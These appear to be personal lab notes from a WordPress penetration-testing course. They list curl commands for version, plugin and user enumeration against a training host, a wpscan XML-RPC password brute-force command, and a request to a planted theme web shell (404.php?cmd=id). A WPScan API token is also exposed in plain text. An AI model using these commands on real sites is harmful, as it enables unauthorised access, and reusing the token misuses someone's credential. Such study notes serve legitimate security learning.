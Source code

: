 ## Default WordPress File Structure

WordPress can be installed on a Windows, Linux, or Mac OSX host. For this module, we will focus on a default WordPress installation on an Ubuntu Linux web server. WordPress requires a fully installed and configured LAMP stack (Linux operating system, Apache HTTP Server, MySQL database, and the PHP programming language) before installation on a Linux host. After installation, all WordPress supporting files and directories will be accessible in the webroot located at `/var/www/html`.

![[Pasted image 20250623181121.png]]

## WP Version - Source Code 
To get the Source Version Code, we use the command : `curl -s -X GET http://blog.inlanefreight.com | grep '<meta name="generator"'`

To check for the Version Number for Plugins : `curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2`

To check for the Version Number for Themes : `curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2`

To perform Plugins Active Enumeration : `curl -I -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta`

## Directory Indexing
```shell-session
curl -s -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta/ | html2text
```
Here html2text is the tool that converts HTML output to a nice readable format.

## User Enumeration
1. Check for the blogs or posts, where we could get parameters like ID, Usernames etc, so that we could enumerate them and check for other users too. The website URL would look like this : `http://blog.inlanefreight.com/?author=1`

2. The second method requires interaction with the `JSON` endpoint, which allows us to obtain a list of users. This was changed in WordPress core after version 4.7.1, and later versions only show whether a user is configured or not. Before this release, all users who had published a post were shown by default.
	**JSON Endpoint** : `curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq`


## Login
Once we are armed with a list of valid users, we can mount a password brute-forcing attack to attempt to gain access to the WordPress backend. This attack can be performed via the login page or the `xmlrpc.php` page.

To find Method Calls Available, we can use the command : `curl -X POST -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" http://94.237.59.174:31080/xmlrpc.php`

## WPScan Enumeration
The command to use the WPScan Enumeration : `wpscan --url http://ip:port --enumerate --api-token <api-token>`

API Token for WpScan : 4c8SSanMPgBTRC2hU15g5yFYmQOtzeFqKJECshNg4OU

## Attacking WP Users
### Bruteforce - XMLRPC
The command to use is : `wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com`

### RCE
To use the command : `curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"`


